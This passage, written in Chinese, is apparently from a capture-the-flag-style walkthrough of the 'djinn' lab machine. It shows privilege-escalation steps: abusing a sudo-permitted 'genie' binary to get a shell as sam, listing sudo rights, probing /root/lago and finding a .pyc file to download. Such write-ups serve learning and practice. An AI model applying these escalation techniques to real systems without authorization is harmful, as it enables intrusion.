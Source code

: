于是接着尝试，得到 Sam 的权限

```bash
nitish@djinn:~$ sudo -u sam genie -cmd ''
my man!!
$ id
uid=1000(sam) gid=1000(sam) groups=1000(sam),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare)
```

## 提取到root

sudo -l 

```bash
sam@djinn:~$ sudo -l
Matching Defaults entries for sam on djinn:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sam may run the following commands on djinn:
    (root) NOPASSWD: /root/lago
```

试着运行下 `/root/lago`

```bash
sam@djinn:~$ sudo /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:222
Do something better with your life
```

又是信息收集的时候，在 sam 的家目录下找到了 .pyc 文件

```bash
sam@djinn:/home/sam$ ls -al
total 36
drwxr-x--- 4 sam  sam  4096 Nov 14  2019 .
drwxr-xr-x 4 root root 4096 Nov 14  2019 ..
-rw------- 1 root root  417 Nov 14  2019 .bash_history
-rw-r--r-- 1 root root  220 Oct 20  2019 .bash_logout
-rw-r--r-- 1 sam  sam  3771 Oct 20  2019 .bashrc
drwx------ 2 sam  sam  4096 Nov 11  2019 .cache
drwx------ 3 sam  sam  4096 Oct 20  2019 .gnupg
-rw-r--r-- 1 sam  sam   807 Oct 20  2019 .profile
-rw-r--r-- 1 sam  sam  1749 Nov  7  2019 .pyc
-rw-r--r-- 1 sam  sam     0 Nov  7  2019 .sudo_as_admin_successful
```

下载下来看看，可以用 nc 下载也可以用 python 开启 http 服务下载
